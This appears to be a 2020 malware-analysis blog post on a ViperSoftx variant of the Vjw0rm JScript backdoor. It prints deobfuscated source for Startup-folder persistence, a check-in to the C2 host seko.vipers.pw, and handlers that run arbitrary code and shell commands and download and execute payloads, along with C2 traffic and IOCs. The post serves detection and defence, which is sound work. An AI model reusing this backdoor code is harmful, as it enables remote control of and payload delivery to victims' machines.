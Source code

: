```yaml
---
title: ViperSoftx Vjw0rm Variant
description: Another interesting analysis of a Vjw0rm variant.
toc: true
authors: c3rb3ru5d3d53c
tags:
  - vjw0rm
  - malware
  - analysis
  - vipersoftx
categories: malware
date: '2020-02-10'
lastmod: '2020-02-10'
draft: false
---
```


__Situation:__

While watching [Any.Run](https://any.run) for interesting scripts to deobfuscate, I noted that its traffic did appear to be like other variants of `vjw0rm` however wasn't sure of what else it could do.

__Metadata:__

- Sample: `3236312b9dc691dd8b9214f08ff01e5d`

__Analysis__

The obfuscation techniques are pretty standard, the first stage deobfuscates base64 data then performs mathematic operations on it (I don't give a crap how they work I just let it do the heavy lifting for me), interestingly the base64 string is reversed.

After this then the obfuscation consistently used `eval` which is easily replaced with `console.log` and ran using `nodejs` to dump the next stages.

It took approximatly twenty different times dumping the obfuscated code before I was able to access the deobfuscated code.


The script starts with setting up some global variables the script needs to run then makes a call to `ModinySks()`, this function is responsible to establishing persistence.

```js
var shell = new ActiveXObject('WScript.Shell');
var fstym = new ActiveXObject('Scripting.FileSystemObject');
var spl = '|V|';
var Ch = '\\';
var verss = 'viperSoftx_1.0.7.6';
var VN = verss + '_' + getSerial();
var Startup = getEnv('appdata') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var StartupAll = getEnv('allusersprofile') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var Temp = getEnv('temp') + '\\';
var Desktop = getEnv('userProfile') + '\\Desktop\\';
var AppData = getEnv('appdata') + '\\';
var fxDmE4zu = WScript.ScriptFullName;
var wn = WScript.ScriptName;
var UDex;
var DeLay = 20;
var ps = 'powershell.exe';
var batf = AppData + wn + '.bat';
var vbsf = AppData + wn + '.vbs';
var lnkf = Startup + wn + '.lnk';
ModinySks();
```

We can see that `powershell.exe` is used to copy, the backdoor script to the `%AppData%` folder then establishing persistence in the startup folder as a `LNK` file.

```js
function ModinySks() {
	try {
		shell.Run(ps + " Copy-Item -Path '" + fxDmE4zu + "' -Destination '" + AppData + wn + "'", 0, false);
		var newpato = 'start wscript.exe /E:jscript """' + AppData + wn + '"""';
		CreateFile(vbsf, 'Set WshShell = WScript.CreateObject("""WScript.Shell""")' + '\n' + 'obj = WshShell.Run("""wscript.exe /E:jscript """"""' + AppData + wn + '""""""""", 0)' + '\n' + 'set WshShell = Nothing');
		createShort(lnkf, vbsf);
	} catch (err) {
	}
}
```

After persistence is achieved, it will checkin to the C2 server `seko[.]vipers[.]pw:8880`, send fingerprinting data in the `User-Agent`.

Interestingly, this variant adds the `X-Header` HTTP header with the variant prefix / version as well.

```js
function SendHttp(R) {
	var X = new ActiveXObject('Microsoft.XMLHTTP');
	X.open('put', 'http://seko.vipers.pw:8880/connect', false);
	var useragent = getUserAgent();
	X.SetRequestHeader('User-Agent:', useragent);
	X.SetRequestHeader('X-Header:', VN);
	X.send(R);
	return X.responsetext;
}
```

The C2 server response body will be parsed by use of the delimiter `|V|` much like previous variants.

```js
var send = SendHttp();
var Command = send.split(spl);
var order = Command[0];
var order_data = Command[1];
```

__C2 Command (Ex):__

Code:
```js
if (order === 'Ex') {
	eval(order_data);
}
```
Command from C2: `Ex|V|<jscript_code>`

__C2 Command (Cmd):__

Code:
```js
if (order === 'Cmd') {
	shell.Run(order_data, 0, false);
}
```

Command from C2: `Cmd|V|whoami`

__C2 Command (DwnlExe):__

Code:
```js
if (order === 'DwnlExe') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	WScript.Sleep(DeLay * 1000);
	shell.Run("cmd.exe start '" + path + "'", 0, false);
}
```

Command from C2: `DwnlExe|V|<url>|V|<path>`

__C2 Command (DwnlOnly):__

Code:
```js
if (order === 'DwnlOnly') {
	varpathdwn = '';
	var path = Command[3];
	var exe = Command[4];
	if (path == 'startup') {
		pathdwn = Startup + Command[2];
	} else if (path == 'temp') {
		pathdwn = Temp + Command[2];
	} else if (path == 'desktop') {
		pathdwn = Desktop + Command[2];
	} else {
		pathdwn = path + Command[2];
	}
	if (pathdwn != '') {
		if (exe == 'yes') {
			DownFile(Command[1], pathdwn, true);
			WScript.Sleep(DeLay * 1000);
			shell.Run(ps + " start '" + pathdwn + "'", 0, false);
		} else {
			DownFile(Command[1], pathdwn, false);
		}
	}
}
```

__C2 Command (SelfRemove):__

Code:
```js
if (order === 'SelfRemove') {
	UnMonkSek(true);
}
```

__C2 Comamnd (UpdateS):__

```js
if (order === 'UpdateS') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	if (fstym.fileexists(path)) {
		UnMonkSek(false);
		WScript.Sleep(DeLay * 1000);
		shell.Run(ps + " start wscript.exe /E:jscript '" + path + "'", 0, false);
		WScript.Quit(1);
	}
}
```

Command from C2: `UpdateS|V|<url>|V|<tmp_file_name>`

__C2 Checkin Traffic:__

```http
PUT /connect HTTP/1.1
Accept: */*
Accept-Language: en-us
User-Agent: viperSoftx_1.0.7.6_C4BA3647\USER-PC\Admin\Microsoft Windows 7 Professional [32]\\YES\undefined\
x-header: viperSoftx_1.0.7.6_C4BA3647
Accept-Encoding: gzip, deflate
Host: seko.vipers.pw:8880
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache
```

If you look closely the difference are the use of the `PUT` HTTP method and the use of the `x-header`.

This is easy enough to create detection for.

__IOCS:__

```txt
3236312b9dc691dd8b9214f08ff01e5d
seko.vipers.pw
```

__References:__
- [Deobfuscated Samples](/samples/2020-02-10-vipersoftx.zip)
- [Any.Run](https://app.any.run/tasks/e97fabaa-96ca-4377-b0ee-2344d1c11291/)
- [VirusTotal](https://www.virustotal.com/gui/file/ad5e9d005b764ba80b93c31bec1814ee43ac13143ca67d795a05ae7dbe9cf72f/detection)
